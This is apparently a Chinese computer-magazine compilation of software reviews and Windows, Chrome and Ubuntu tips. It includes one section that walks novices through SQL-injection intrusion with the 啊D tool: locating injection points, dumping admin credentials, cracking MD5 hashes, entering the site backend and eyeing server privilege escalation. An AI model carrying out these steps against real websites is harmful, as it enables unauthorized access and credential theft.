在这么多款手机阅读软件中，开卷有益的本地阅读是做得最专业的，包括本地文件检索，阅读的操控方式和目录检索等功能都做得非常细致，这对于大多数直接把电子书下载到本地阅读的用户而言，这些功能体验才是最关键的，而且它还支持阅读历史备份，经常刷机的朋友可以考虑。

#### 百阅
- ★优势：资源占用少，社交功能强大。
★劣势：翻页方式单一。
★适用：适合经常玩微博，或喜欢分享读书心得的书友。

百阅优点很明显，一是对手机系统资源的占用较少，二是完善的社交功能。手机用户通过百阅主界面上“我的空间”就可以和书友们畅聊天下，把精彩的书摘发布到社区与微博，与朋友们分享，也可以通过百阅社区与书友即时互动。当然，百阅的不足也很明显，只提供上下滑动一种翻页方式，非常单一。

#### iReader
- ★优势：横屏阅读很方便。
★劣势：有完整的书城，却不支持在线看书，很奇怪。
★适用：适合横着屏幕看书的书友。

iReader的模拟书架有一个非常独特的Cover Flow横屏效果，并且可以模仿传统的横屏双页阅读，对于喜欢横屏阅读的书友来说是个不错的选择。整体功能设计上，iReader表现中规中矩，支持网上书城，而且分类也很详细，不过它并不支持在线看书，只能下载到本地才能阅读，不知算不算一个BUG？

#### QQ阅读
- ★优势：免费在线资源丰富，书城分类详细。
★劣势：本地阅读体验一般。
★适用：喜欢在线阅读的书友。

QQ阅读的最大特色在于海量书城在线资源，免费电子书，热门小说和热门杂志应有尽有，得益于QQ强大的内容编辑团队，在线书城的分类非常详细，并且不定期地推出相应的专题，喜欢在线阅读的书友值得考虑。

#### 熊猫看书
- ★优势：可自动划分章节，在线阅读功能强大，支持图片或杂志阅读。
★劣势：体积和内存占用大，没有模拟书架。
★适用：喜欢根据章节阅读的用户，喜欢看电子漫画的朋友可以考虑。

熊猫看书本地阅读的体验还是不错的，而且它的智能断章功能可自动对没有章节的书籍进行章节的划分，比较实用。另外，熊猫看书的在线功能是很丰富的，特别是漫画图书种类非常全面，但正因为内容丰富，性能上也就付出了代价，它的致命伤就是软件操控体验速度慢。

### 总评

如果你经常刷机，数据备份可以用第三方软件来完成，不过如果阅读器本身有阅读记录备份功能当然是最好的了。如果你只是单纯地看本机上的电子书，开卷有益就很适合你。如果你喜欢横着屏幕看书，iReader是个不错的选择。如果你懒得把电子书下载到本地，那就选择免费在线资源最丰富的QQ阅读吧。喜欢看电子漫画，试试熊猫看书。如果手机资源空间很紧张，百阅或许是比较好选择。

## 小小名片制作奥妙之所在

前两期的栏目里，我们介绍了怎样制作一页能给人留下深刻印象的简历，并给出了一些精彩的实例。本期我们为大家带来的则是如何设计出符合自己身份的名片，拓展下大家的思路。

### 名片是什么？

其实对于大多数职场上的人来说，无论是职业老鸟还是“三无”新人(无职位、无地位、无经验)，他们谈客户也好出差工作也罢，很大程度上都会需要一张名片。名片虽小作用却很重要，它是直接代表你身份、地位或是公司等级的门面，很大程度上来说，就是你的“脸”，但恰恰很多时候，这张“脸”在被接过来的一瞬间，就被丢到了垃圾桶里。

### 标准版名片

现在市面上和大部分公司里流通的都是标准版名片，排版字体都非常的工整，但是它的缺点可以说是不言而喻的：
1.标题字体颜色和正文一样都基本是黑色或者灰色居多，没有放大字体加深颜色突出主体部分，比如你的title，比如你的联系电话等，导致视线失焦，所以导致接受名片的一方很容易对这张纸一扫而过。
2.有些名片在正文排版的时候没有把需要独立的两个部分主次独立开来，阅读起来显得乱，比如公司的名字和人物的名字职务应该做成独立的部分，不应该混在一起，如果排在一起就不会那么容易被记住。

### 具体问题且看具体分析

在一张很大众化的名片基础上，应该如何改进让其成为一张高质量名片呢。
首当其冲是要明确基调，这是一张俱乐部的名片，那么它的主题应该是轻松明快的，不应该刻板，搭配的颜色如果是跳跃的颜色，更能衬托名片的不平凡和名片上人物的创新精神，很多名片设计公司缺乏这样的理念不说，甚至还把根本不搭配的两种颜色混在一起制作名片，这样的结果就是让你的客户在接到名片的一刹那没有产生任何印象。那么此张名片应该如何改进呢？

1.版式不突出
名片的排版我们一般不采用上下式这种旧形式的模板，应该改为左右式。
2.主次不鲜明
名片在视野上来讲，要给人一种一目了然的特性，什么公司，什么职位，一次性收入眼底为上等的名片效果。所以此张名片应该把名字和职位至于左边偏下角的位置，公司名字至于右边偏上角的位置，这样两边都会比较突出，看着也方便。
3.字体的排版
在制作名片上，字体的排版其实也很重要，不同的字体型号、大小都会影响整体的感觉。而这组名片字体明显不合适也不突出，个人名字一般采用正楷最为合适。
4.颜色搭配的选择
此张名片主颜色以粉红+蓝色为主，但这两种颜色搭配在一起并不合适，一般颜色的选择上，我们建议以“互补”为主，就是你可以突出我，我可以突出你的效果。例如黑白搭配，橙红搭配这样的效果。
5.内容的补充
根据不同身份，可以制作自身的logo来搭配名片，此张名片是俱乐部身份，那么搭配属于其俱乐部的logo会加深别人对你的印象。如果不搭配的话，内容上来看会非常的单调，并且给别人的印象也不够深刻。

### 快速在线制作法

最后介绍给大家的方法是在线制作，只需要点击这个网站：http://mp.gaitu.com/，就可以立即制作属于自己风格的名片了，当然，这个网站是专门给懒人们设计的，里面有很多版本可以供你选择，只需要在界面里输入自己的姓名、职务和联系方式就可以了。
怎么样，通过以上的方法经验，你是不是不再为出门自己的“脸面”如何而烦恼了呢？其实很多事情就是非常简单的，在职场中少不来了要学会几样看家本领和手艺，那就让我们从完善自身名片开始吧。
(文/可乐)

## 系统程序崩溃 信息轻松查询

Win7的兼容性已相当强了，但有时在Win7系统中运行各种应用软件时，还是难免会有程序崩溃的情形发生。要是此时想和网上的高手求教以解决程序崩溃的问题，那就得将程序崩溃时的系统提示信息贴出来。如果自己手动输入那些提示信息文字，这实在是一件非常麻烦的事情。使用“AppCrashView”这个针对Win 7开发的绿色小工具，就可以帮助我们轻松获得文本格式的程序崩溃详细提示信息。

下载“AppCrashView”后运行它，在软件界面中就能看到Win7系统中所有程序崩溃的详细记录。点击任意一条崩溃程序，会在下方显示出该崩溃程序的详细信息。需要保存程序崩溃时的系统提示信息时，右击某个程序的崩溃记录，选择“保存选定项”，将该程序崩溃时的系统提示信息，以文本格式保存到硬盘中，以后就可以随时查看。还可以双击某条程序的崩溃记录，看到图形化的程序崩溃提示信息界面。这样一来，我们只须将文本和图形化的程序崩溃系统提示信息，发给好友或张贴到论坛中，就可以方便网友为自己解决具体的问题。

总的来说，有了AppCrashView，我们和高手请教解决程序崩溃的具体问题时，可以快速地为对方提供详细的提示信息，非常方便对方给出有针对性的解决问题的方案。有此需求的朋友不妨一试。
（文/博言）

## 巧用EasyRecovery 搞定数据恢复

同事的U盘昨天还是好的，今天打开后就提示“驱动器中的磁盘未被格式化”。换了台电脑试了一下仍然不行。因为U盘上有重要数据，不能进行格式化操作。按照以往的经验要查看U盘的属性，于是在“可移动磁盘”上右击打开属性菜单，在“常规”选项中发现U盘的文件系统不是FAT格式，而是RAW格式，而且磁盘容量也变成了0字节。在网上按关键字进行搜索，提供的方法是很多，大多数是修复U盘的操作，对数据恢复方面涉及的较少。快到黔驴技穷的地步时，头脑里忽然想到“EasyRecovery”工具中有个“格式化恢复”不妨试试。

为确保万一，先对U盘进行备份。打开Ghost32 11.0，在Ghost32界面处依次单击“Local”->“Disk”->“To Image”，选择2号驱动器（即U盘驱动器），单击“OK”后，在“File to copy image to”界面中输入要保存的路径和文件名，单击“Yes”，大约三分钟就完成了备份。接着对U盘进行格式化操作，在“可移动磁盘”处右击，选择“格式化”，把“快速格式化”给选中，单击“开始”按钮进行格式化操作。运行“EasyRecovery”程序，依次打开“数据恢复”->“格式化恢复”，在左侧“盘”单击后，进行“下一步”操作。然后在另一界面下把“我的驱动器”选中，单击“下一步”。在“恢复目的地选项”处选择要恢复的路径，完成操作。

等文件全部复制完毕后，打开F!ostfile文件夹查看数据，U盘里的文件全都在，打开其中的一个文件，文件可以打开而且没有错误。至此，U盘数据恢复完成。在这个恢复过程中，本人反常规操作，把磁盘给格式化了，目的是为了使用“EasyRecovery”中的“格式化恢复”功能，虽然操作有些危险，最终还是把数据给恢复了。
（文/王昌红）

## 边缘最大化功能 请别自作聪明

同事小郭抱着自己的“爱机”找到我，她说这Windows7操作系统有点自作聪明，因为每当她把一个软件的窗口拖动到屏幕的边缘时，该软件窗口就会自动被最大化，其实她只是想让该应用窗口自动隐藏而已，并不想把窗口进行最大化操作。原来，小郭不喜欢这个Windows7边缘自动最大化功能。我说这好办，修改一下注册表关闭该功能就OK了。

方法是：
1.打开“运行”对话框，输入“regedit”命令运行注册表编辑器。
2.定位到[HKEY_CURRENT_USER\Control Panel\Desktop]节点，在右侧窗口中找到并双击“WindowArrangementActive”项，然后在弹出的对话框中，将系统默认的值“1”修改为“0”。
3.重新注销登录后修改便会生效。Windows7再也不会自作聪明了。
（文/陈晓年）

## 巧改Google Chrome用户数据和缓存路径

谷歌的Google Chrome浏览器是大家非常喜欢的浏览器，它浏览网页的速度快，界面简洁，而且极少崩溃，受到不少网友的青睐。不过有点遗憾的是浏览器的用户数据和浏览缓存路径默认情况下都保存在C盘，不能设置到其他盘，遇到系统重装后，Chrome的用户数据，如cookies、书签、历史记录、密码等就会丢失，很不方便。下面告诉你如何修改这两个路径，让它们都保存在非系统盘上。先右键单击桌面上的“谷歌浏览器”快捷方式图标，在右键菜单中选择“属性”，马上会弹出属性窗口，单击“快捷方式”选项卡，在“目标”栏文本框中将光标移到原文尾部，然后添加以下文字：空格--user-data-dir=“X:\文件夹”空格--disk-cache-dir=“X:\文件夹”

以上文字中空格表示留一个空格，--user-data-dir是Chrome的自定义用户数据目录命令，“X:\文件夹”是你要定义的用户数据目录（如d:\Google ChromeAppData），--disk-cache-dir是自定义浏览缓存目录命令，“X:\文件夹”是你要定义的缓存目录（如d:\Google ChromeCache），注意所有标点必须是英文状态。所有文字添加完毕后，单击“确定”关闭属性对话框，然后双击Google Chrome快捷方式启动Google Chrome浏览器，Google Chrome就会自动创建你指定的那两个文件夹，用户数据也会自动转移到“D:\Google ChromeAppData”目录中，上网的缓存文件也转移到自定义缓存d:\Google ChromeCache中了，刚开始自定义缓存里面是空的，等用户用Google Chrome浏览了网页后，再进入自定义缓存目录的文件夹中即可看到有网页的缓存文件了。
（文/贺金荣）

## 真假难辨 Ubuntu&Win7界面互换

大家知道Ubuntu是目前最流行的Linux系统，它不仅是开源、免费的系统，而且系统外观漂亮，操作简单，和Windows一样使用图形界面，应用程序众多且免费，越来越多的朋友把Ubuntu作为自己第二系统使用。不过对于刚接触Ubuntu的朋友来说，Ubuntu的使用界面和习惯还是和我们用惯了的Windows不同，这给习惯使用Windows的朋友们带来一定的不便。何不在Ubuntu上安装个Win7主题包，让Ubuntu变身为“Windows 7”呢？对于没有接触过Ubuntu的朋友，我们则可以在Win7下安装Ubuntu主题，使Windows变身Ubuntu，让用户在外观上熟悉一下Ubuntu。

### 简单二步，Ubuntu10.10变身Win7

第1步：启动终端，然后依次输入下列命令下载主题并进入安装目录：

```
cd ~/
sudo wget http://web.lib.sun.ac.za/ubuntu/files/help/theme/gnome/win7-setup.sh
sudo chmod 0755 ~/win7-setup.sh
~/win7-setup.sh
```

第2步：在终端继续输入“setup-win7-theme”激活安装，安装完成后程序提示注销当前用户，重新登录后就自动切换到Win7主题了。现在看看，Ubuntu的窗口按钮，快捷启动，任务托盘，侧边栏，任务栏一键最小化所有窗口按钮，这些是不是和Windows 7很像了。

### 小提示：

如果要让Ubuntu更像Win7，我们在桌面右击选择“变化桌面背景”，在打开的窗口对Ubuntu的壁纸、窗口对话框、鼠标指针等进行更多的设置。

### 一键变身，Win7变身Ubuntu

对于Win7用户来说，如果要变为“Ubuntu”操作更为简单，只要简单的更换一下主题，并利用Win7新增特性加以修饰即可。首先启动系统还原组件建立一个还原点（因为后面主题会替换系统文件），接着到http://tinyurl.com/3ps4pg9下载Win7仿Ubuntu主题，下载后以管理员身份运行，安装后按提示重启即可完成变身操作。重启后进入系统看看，你的Win7是不是大变身了呢？首先登陆界面和系统声音换成Ubuntu，开始菜单被移动到桌面了左上角，微软徽标换成Ubuntu图标，IE图标变身火狐，驱动器，前进，后退按钮也进行替换，不过所有的操作还是一样的。如果要恢复原来主题，只要使用上面建立的还原点恢复系统即可。
（文/俞木发）

## 简单几步 轻松重装系统

菜鸟用电脑就怕碰到系统变慢、感染病毒或者系统出现一些莫名其妙的故障，有木有！出现这些问题我们一般会选择重新安装系统，但对于菜鸟，重装系统可不是一件简单的事情，而且重装电脑后，个人数据丢失，各种驱动、软件需要安装，非常麻烦，或许GHOST很简单，但那专业英文界面也让很多人望而却步。有没有简单一点的重装系统的方法呢？当然有了，其实只要使用金山装机精灵（http://dl.zj.jinshan.com/setup_beta.exe）的系统重置功能简单几步就可以很轻松的为电脑重做系统。

## 安装金山装机精灵1.0 Beta

金山装机精灵1.0 Beta的下载地址是：http://up.zj.jinshan.com/setup/kszz_setup_1.0.0.165.exe，下载完成后直接安装即可。

## 备份驱动和个人信息

打开金山装机精灵1.0 Beta，单击“系统重置”选项，它采用了向导模式，每个步骤都有着说明提示，即使是菜鸟也可以根据这些提示来一步一步进行操作，非常简单。单击“立即开始”，选择“备份数据，重装后确保您的个人信息和文档等还原如初”，单击“下一步”，勾选要备份的内容，可以备份用户的聊天记录、办公邮件数据、浏览器数据、桌面数据、系统设置、我的文档等内容，另外还可以备份硬件的驱动程序，选择完毕后，设置备份数据的保存位置，一般选择存储到系统以外的其它分区中就可以了，最后单击“开始备份”即可，备份一般需要1-2分钟。

## 重装系统

备份完成后，单击“下一步”，开始自动安装系统。经过“收集信息”、“更新文件”、“准备安装”等过程即可完成系统安装。需要注意的是，该过程要保持计算机联网，因为“系统重置”工具需要从互联网服务器中下载所需要的相关系统文件，当然为了节省时间不是下载全部的操作系统文件，而是选择性下载，然后弹出提示需要重新启动电脑，单击“立即重启”，重启后金山装机精灵开始安装Windows，整个过程大概只要几分钟，速度还是非常快的。至此，一个全新的系统就安装完毕。

## 还原个人信息和驱动

新系统安装完成后，有的硬件驱动程序没有安装，另外一些个人信息也没有，现在就可以直接用还原工具来恢复我们备份的驱动和个人信息了。单击“还原数据”，选择上次备份数据的文件路径就可以还原了，最后弹出“恭喜您，系统重置完成”，新系统就安装完毕了。另外系统重装的时候，金山装机精灵会备份原来的系统，为了减少磁盘空间占用，可以点击“删除原系统”按钮来删除原来的系统备份，另外单击“恢复原系统”还可以恢复到安装前的系统。

小编有话说：目前金山装机精灵1.0只支持Windows XP SP3，估计在正式版出来时可以支持其他系统的重装，另外该工具重装系统必须要联网下载一些必要的系统文件，感觉这也是它一个比较大的局限性。但它的优势也非常明显，就是在安装过程中不需要光盘、U盘，操作简单，而且可以备份个人信息和驱动。

(文/贺全荣)

## 黑客入侵之SQL注入

目前黑客入侵泛滥，很多菜鸟级黑客也想拿着别人制作的工具对各个网站进行测试。那么，今天我们就来见识一下，黑客入侵网站时最常用、最简单、最有效也是最具杀伤性的SQL注入攻击。

由于网站制作者编写网站时的疏漏，太多的网站存在着SQL注入漏洞。通过这种漏洞，黑客可以很轻松地得到网站后台管理员的帐号密码，从而获得网站的管理权，这也为下一步的入侵提供了便利条件。要想知道网站是否存在SQL注入漏洞就要用到检测工具，今天我们用到的就是——啊D注入工具。

打开啊D，在检测菜单下输入网址进行访问，啊D会自动检测页面是否存在漏洞，若存在，则软件下方会有红色链接，这红色的链接就是我们所说的注入点，通过这个注入点就可以查出网站的数据库，从而获取网站管理员密码。

右键单击红色链接，会弹出选项，点击检测链接，软件会跳到数据库查询页面，点击链接右边的“检测”按钮，软件会对链接进行检测，看是否能够进行注入，并检测出网站数据库类型，我们遇到的以ACCESS和非显错的MYSQL居多。

点击“检测表段”，软件会列出存在的数据库表段，通常我们选择admin或manage之类的表段。选中所选的表段后，点击“检测字段”，软件会列出该表段中存在的字段，我们通常会看到类似password、name、admin、user、ID的字段，如果不懂，可以全部打勾。然后点击检测内容，稍等一会，我们就可以看到网站的管理员帐号和密码。在绝大多数情况下，密码并不是明文的，而是经过加密的，通常是用的16位或32位MD5加密，不用担心，我们将密文复制，登陆MD5在线解密网站，如：www.cmd5.com.cn，进行解密。一般简单的密码是免费查询的，如果遇到收费的可以多去几个查询网站试试。

通过反查，我们就可以得到密码了，但是有密码还不够，我们还需要得到后台登陆地址。幸好啊D给了我们一个很好的功能，后台地址查询。

登陆网站后台，现在我们就有了网站后台管理员的权限，下面我们来发布一条网站新闻。添加成功后，我们打开网站就可以看到刚才添加的新闻了。但是这并不是黑客最终的目的，黑客会利用后台管理员的权限进行提权，从而获得该网站服务器的管理权限。

SQL注入漏洞在网络上普遍存在，虽然它看似简单，但是给网站带来的危害是很巨大的，著名的MYSQL数据库开发商的官方网站就是因为SQL注入被黑，这也成为IT界的笑谈。

(文/陈启麟)

## 再多程序 也能一键关闭

当各位经过一天忙碌的工作后，准备关电脑回家的时候却发现Windows 7任务栏上众多正在运行中的程序需要逐个关闭，也许这时候你就在想要是能一下子把它们全关了该多省事。其实，这个想法是完全可以办到的，而且不需要什么特别的软件，自己动动手就可以办到。

首先，在你的Windows 7桌面上点击右键，新建一个快捷方式，然后输入以下内容：

```
taskkill /F /FI "USERNAME eq ****" /FI "IMAGENAME ne explorer.exe" /FI "IMAGENAME ne dwm.exe"
```

注意，语句中的“****”需替换成自己电脑的个人用户名。

然后点击“下一步”给这个快捷方式起名，比如：关闭所有进程。

点击“完成”，快捷方式就算建好了，你可以把它放在桌面上，或者是锁定到Windows 7任务栏上。接着随便启动几个程序，然后双击这个快捷方式，看看是不是一下就全关闭了？怎么样，这个小小的快捷方式让程序关闭变得很方便吧。

## 双进程守护木马 也能轻松Kill

现在不少木马程序都会采用双进程守护技术来保护自己，所谓双进程守护技术就是两个拥有同样功能的代码程序，不断地检测对方是否已经被别人终止，如果发现对方已经被终止了，那么又开始创建对方。Windows自带的任务管理器一次只可以结束一个进程，这给我们的查杀带来很大的困难。那就试试CloseMany这个高级的绿色任务管理器吧，可以一次选中所有想要结束的软件进程，一次性的杀死它们。

## 一、认识 CloseMany 界面

首先从http://www.donationcoder.com/Software/Skrommel/CloseMany/CloseMany.exe下载CloseMany程序文件，它体积非常小，只有一个不到500KB的文件，无需安装，可以放在硬盘中以备不时之需。双击运行它，打开其进程管理操作界面，同时会在托盘中出现其图标，在界面中“Processes”标签下显示正在运行的所有进程，在“services”标签下显示正在运行的系统服务。旁边的功能按钮会随着这两个标签的切换而改变。如果在界面上没有看到想要结束的进程，点击“refresh”按钮刷新一下即可。

## 二、一键关闭多进程

切换到“Processes”标签下，找到需要关闭的木马程序的双进程后，按下“Ctrl”键，逐个点击需要结束的进程，然后点击窗口顶部的“Kill”按钮，即可快速关闭选中的进程。如果想要连续关闭多个进程，也可以使用“Shift”键来进行选择它们。对于一些系统中的服务进程，我们可以切换到“services”标签下，在服务列表中选择需要操作的系统服务进程，再点上方对应的功能按钮，轻松快捷的进行开启、停止等操作。使用CloseMany来管理系统服务最大的好处就是，无需多步操作，就可以查看系统服务运行情况，并能轻松开启或停止它们，比使用系统的组策略更方便更给力哦。

小提示：在管理系统服务进程时一定要注意，如果系统的进程被不小心杀死，那么Windows可能会变得不稳定，甚至是蓝屏。所以下手前可以先在搜索引擎中了解一下进程的详细情况。万一发生蓝屏等悲剧，也不要紧，重启一下电脑即可恢复正常。

(文/博言)

## 巧改注册表 显示指定文件的扩展名

大部分用户的文件名显示方式采用系统默认的“隐藏已知文件类型的扩展名”，这样只显示文件名，让文件名称看起来简洁，也更符合一般人的习惯。但这样却存在一定的风险，如病毒文件名123.avi.exe，这本来是个exe执行文件，显示为123.avi，容易误以为是视频文件。但如果设置显示所有文件扩展名，又让文件名看上去不简洁，这里教大家修改注册表，只显示自己指定类型的文件的扩展名。一般设置exe、com、bat等危险可执行文件类型为显示，即可保障系统安全。

先单击“开始”，选择“运行”，输入“regedit”，单击“确定”，打开注册表编辑器。在根键“HKEY_CLASSES_ROOT”中找到“exefile”，选中“exefile”，在右边窗口空白处点右键，选择“新建→字符串值”。

设置字符串的名称为“AlwaysShowExt”，再退出注册表编辑器，然后重启explorer进程或者注销计算机即可生效。这样即使在“文件夹选项”中采用了系统默认的“隐藏已知文件类型的扩展名”，但是exe可运行程序仍会显示扩展名。用同样的方法也可设置显示其他类型文件的扩展名。

(文/贺全荣)

## 移动复制也玩 加速和断点续传

领导临时通知小李的演讲改在早晨十点钟，距离以前的安排足足提前了两个小时，这可忙坏了小李，因为大量的原始资料文件还在办公室的电脑中，小李连忙插上移动硬盘，开始复制资料，但看到蜗牛般得速度，小李有点抓狂了，因为有些文档还要修改加工呢。

其实，小李的这种情况在实际工作中经常存在。如果选择系统增强工具TeraCopy，让它接管资源管理器的复制和移动，一切马上就可搞定。下载安装TeraCopy(http://www.codesector.com)，选择重新启动，在欲复制或移动的文件上单击鼠标右键，选择命令“TeraCopy...”，视图的右边选择目标文件夹，这里选择X盘，点击Copy，看看标题栏速度参数吧。

使用“断点续传”让更加紧要的任务先执行。单击“Stop”按钮可以暂停复制，让小李老式电脑得以喘息。完成重要文档的修改，单击开关按钮“Resume”重新恢复复制移动。而当需要马上离开之时，单击右上角的关闭按钮，当再次插入移动设备复制原来未完成的文件时，只需选择“Resume”，软件又会继续原来剩下的任务而不会从头再来。

更神奇的是复制遇到错误文件时系统自带的复制功能会马上终止，而TeraCopy会重新尝试直至跳过该文件，不会终止整个传输，是不是极其方便呢？

(文/段晓东)

## 让迅雷下载分类与Win7库同步

迅雷7肯定是大家比较常用的下载软件了。它可以设置下载完成的文件按影视、音乐、游戏等分类存放。如何让迅雷7下载的文件分类与Win7库中的音乐、视频分类同步呢？

其实通过简单几步设置就能让迅雷7下载完成的文件直接同步到Win7库中，不需要手工移动。这会让习惯使用Win7的库来进行文件操作的用户感到非常方便。

先安装迅雷7.1.7.224及以上版本。运行后，在左边栏中双击“已完成”，展开“已完成分类”，在下面右键单击“影视”分类，然后选择“属性”，弹出属性窗口，然后修改分类名称和默认路径，单击“选择目录”，然后选择Win7的库中的视频，然后单击“确定”按钮。设置完毕后用迅雷7下载视频时，只要选择“视频”分类，就自动存放到Win7库的视频里面了。同样的方法，可以设置音乐、游戏等分类与Win7库同步，是不是很方便啊。

(文/贺全荣)

## 神奇工具 让Win7任务栏空间翻倍

随着Windows 7系统使用时间增加以及一些程序的安装，任务栏空间会越来越小。因为习惯了Windows 7任务栏的锁定图标功能后，总会不经意间把各种程序图标放到任务栏上去。虽然我们可以通过改用任务栏小图标来缓解空间问题，但实际效果并不理想。你有没有这样的困扰呢？今天就让我们来见识一下Bins这款软件是怎样帮你增加任务栏空间的。

Bins是一款Win7任务栏增强工具，能够在不改变当前硬件和设置的情况下翻倍增加任务栏可用空间。软件可以把任务栏上的多个图标分组归类，从而释放更多的空间。

这个软件很简单，下载后运行安装，完成后自动运行，会在任务栏上方会弹出一个使用提示，点击“Next”就能看到如何使用它的动画演示，让你顺利上手。

只要你看过软件自带操作演示，就会发现Bins的使用非常简单，把一个图标拖到另一个图标上，就会弹出一个额外小窗，再把它移上去就完成了。

此时，程序图标会缩小以平铺方式显示，任务栏上最多显示4个图标（按从左至右的顺序显示前4个，可以通过交换位置来改变显示图标），但每个分组可存放的图标数量不受影响。分组后运行中的图标会在前段显示，同时所有程序窗口预览时会合并在一起。

想从分组中分离图标也是通过拖拽的方式，将目标拖动到任务栏空白位置松开鼠标即可。

通过这么一个小软件，立即让你的任务栏可用空间大幅增加。即使每个分组只放四个图标，也能将图标数量缩减到原来的四分之一，而腾出的空间我们可以继续放更多图标（如果你有那么多可放的话）。

除了基本的分组功能，Bins还有些比较有趣的东西，一起来领略一下吧！

- 首先，每个分组都会有一个“组长”，比如上图的浏览器分组，是将其他图标拖到IE图标上所形成的分组。那么IE就是组长，点击整个分组可以直接运行“组长”程序。
- 其次，组长本身不能从组里分离出去，组员则可以随意移动。但我们可以更换组长来达到分离IE的目的。在其他图标上右键选择“Make primary icon of Bin”来改换组长。
- 需要注意的是，这个操作实质上是解散整个分组然后重新以另一个图标为基准的组合过程，期间会有提示框要求我们确定，然后会看到这些图标的重组变化。
- 软件运行时会驻留系统托盘的通知区域，双击其图标可以进行一些设置，其中这三项会对我们比较有用。

### 同组程序/窗口循环切换

在窗口中勾选上面这一项可以让我们在分组图标有多个程序（或者单个浏览器打开2个及更多标签）运行时，通过点击分组图标直接在这些窗口/标签之间循环显示。

### 停用 Bins 并恢复任务栏原样

停用Bins需要首先点击主界面上方的“Extras”按钮，然后点击下面那个最大的按钮，点击它可以关闭Bins的分组功能并将所有图标还原到任务栏上。同时这个按钮文字会变成“Undo”，再次点击又可以恢复之前的分组方式。

### 将文件/文件夹锁定到任务栏

同样在Extras下，有个“Enable pinning fils/folders onto the taskbar”选项，勾选之后允许你把文件或者文件夹也锁定到任务栏上去。这样我们就可以把一些常用文件夹放到任务栏上，再通过分组合并到一起方便我们使用。

怎么样，这个软件是不是很棒呢？如果你开始为任务栏上越来越多的图标而烦恼，那么不妨试试Bins吧。

## Windows Installer程序包错误巧修复

前几日，在联想官方网站看到旗下的“联想一键恢复”已经悄然升级了。于是想对笔记本的一键恢复升下级，看看有没有什么新的功能。漫长的下载等待后开始了安装……

第一次，我是直接运行的安装包，提示让我先移除旧的版本，可是点“是”后却出现了一个大大的错误提示框，大意是“产品文件丢失”。

第二次，在控制面板中的卸载程序中直接卸载原来的程序，和上面一样，问题依旧……

问题既然是“文件丢失”，那我们就要找到是哪个文件丢失。这貌似是我们平时解决问题的思路，其实大可不必，根据“Windows Installer程序包”的特性，在安装包中会包含一个扩展名为“.msi”的文件，在安装完以后这个文件会自动复制到“C:\Windows\Installer”中。所以第一感觉应该是位于“C:\Windows\Installer”目录中的.msi文件丢失了，很有可能是被某些“垃圾清理软件”误删了。

既然在安装包中就有msi这个文件，直接解压安装包（可以用WinRAR解压软件直接打开解压），找到这个文件直接在右键选项中选择“卸载”，大概等待2分钟左右（视安装软件而定）就可以完全卸载啦。

最后一步就是重新安装我们要用的软件了。

> 小提示：
尽量不要使用类似“360软件管家中”提供的“强力清扫”卸载，如果文件已经被“强力清扫”了，此方法依然适用。

(东北大学/陈建勋)

## Win7唤醒睡眠后 也能自动联网

在使用电脑的过程中，我们经常会因为处理一些琐事而不得不离开一段时间，此时为了节约电能和方便回来后继续未完成的工作，就会单击菜单“开始→关机→睡眠”，使Win7系统进入到睡眠状态。但Win7每次睡眠后再唤醒，会出现无法上网且运行系统自带的拨号程序无法接入互联网的情况。接下来，就给大家介绍一下如何解决这个问题。

## 第1步：添加上网账户及密码

先从http://goo.gl/T3a9l下载小工具“远景快速连接宽带”，这是一个绿色软件，将其解压到硬盘的任意位置（如“D:\Program Files\小程序”目录下）并双击运行之，输入自己的宽带账户、密码并勾选“保存用户名和密码”及“开机自动拨号”复选框就可以了。

## 第2步：添加计划任务

右击桌面的“计算机”图标，选择“管理”以打开“计算机管理”窗口；接着依次选择“任务计划程序→创建任务…”，在弹出的“创建任务”对话框中的“常规”、“触发器”及“操作”选项卡中依次执行以下操作：

### 1. “常规”选项卡

在“名称”右边的文本框内为新创建的计划任务取随意取一个名字（如“联网”），单击“配置”右边的下拉箭头，选择“Windows 7，Windows Server 2008 R2”选项。

### 2. “触发器”选项卡

单击该选项卡中的“新建…”按钮，打开“新建触发器”对话框，然后单击“开始任务”右边的下拉箭头，选择“工作站解锁时”并单击“确定”按钮即可。

### 3. “操作”选项卡

单击该选项卡中的“新建…”按钮，打开“新建操作”对话框，单击“操作”右边的下拉箭头，选择“启动程序”，单击“浏览”按钮，将“D:\Program Files\小程序”目录下的“Dial.exe”文件添加进来；再在“添加参数”右边的文本框内输入参数“-auto -d”，最后单击“确定”按钮就可以了。

这样一来，当Win7由睡眠状态唤醒后，就会自动运行“D:\Program Files\小程序”目录下的远景快速连接宽带程序并执行拨号操作，我们就又可以正常访问网络了。

（文/闫华礼）

## 窗口内容变化 自动切换到前台

在Win7系统中，当一个后台窗口内容变化时，窗口对应的任务栏按钮会闪烁以此希望引起你的注意，而有时候光有提示是不够的，我们希望它能够自动切换到前台来。

如果希望系统让窗口自动切换到前台，打开注册表，依次点开“HKEY_CURRENT_USER\Control Panel\Desktop”，在右边双击“ForegroundLockTimeout”，把它的数据值修改为0，即可让内容发生变化的窗口自动切换到前台。

另外还有一个键值也挺有意思。

“ForegroundFlashCount”用于内容变化窗口按钮闪烁的次数，该键值为0时表示不断地闪烁，如果想进行有限制次数的闪烁，只要输入具体的数据值，比如“6”就表示闪烁次数为6次。

（文/徐怀平）

## 系统达人随身宝——打造移动版专用WinXP

现在很多电脑都安装了Win7，这对很多游戏迷来说并不是件好事，因为Win7仍然不兼容很多经典老游戏。此外，很多个性小软件由于长期没有更新，所以与Win7不兼容。为了游戏和软件使用的需要，有的人不得不在Win7电脑上再安装WinXP。何不打造一个移动版专用WinXP？这样不仅对原来的Win7没有任何影响，而且还可以将游戏和软件随身携带。

## 移动WinXP 好处一箩筐

移动版WinXP是将系统直接安装在移动硬盘，并且通过移动硬盘独立启动，这样只要支持USB启动的电脑就可以使用，而且这是个独立WinXP系统，我们同时还可以把它作为独立维护系统使用呢。

## 简单三步，移动WinXP请进门

既然移动WinXP有这么多的好处，下面我们就介绍如何在移动硬盘上安装它。不过默认WinXP系统是无法在移动设备上启动，这里使用的是网友改装过的“U盘XP”（支持U盘和移动硬盘的安装，下载地址：http://u.115.com/file/a8rmyws）。

## 第1步：准备一个包含主分区的移动硬盘并将其主分区激活（启动系统“磁盘管理”组件，选中移动硬盘的主分区后右击选择“将分区标记为活动分区”即可）。

## 第2步：到http://bbs.wuyou.com/viewthread.php?tid=57675下载“BOOTICE.EXE”，启动程序后在“目标磁盘”选中当前移动硬盘，然后单击“主引导记录”，按提示选择“Windows NT5.x默认引导程序”，最后单击“安装/配置”，将移动硬盘引导记录更改为NT52格式，闪盘的更改操作类似。

小提示：

